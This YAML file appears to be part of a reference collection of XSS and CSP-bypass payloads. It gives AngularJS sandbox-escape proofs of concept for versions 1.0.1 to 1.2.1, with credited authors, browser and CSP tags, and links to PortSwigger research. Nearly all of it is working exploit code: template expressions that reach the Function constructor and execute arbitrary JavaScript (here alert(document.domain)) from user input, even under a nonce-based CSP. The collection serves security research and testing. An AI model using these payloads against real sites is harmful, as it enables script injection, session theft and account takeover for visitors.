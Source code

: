 ```yaml
  1.2.0-1.2.1:
    authors:
      - twitter:tehjh
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.2.1/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(document.domain)')()}}</div>
    links:
      - https://portswigger.net/research/dom-based-angularjs-sandbox-escapes
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected
  1.0.1-1.1.5:
    authors:
      - twitter:cure53berlin
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{constructor.constructor('alert(document.domain)')()}}</div>
      - description: This shorten version have been found by [@garethheyes](https://x.com/garethheyes) and [@LewisArdern](https://x.com/LewisArdern).
        code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{$on.constructor('alert(document.domain)')()}}</div>
    links:
      - https://portswigger.net/research/dom-based-angularjs-sandbox-escapes
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected
---
```

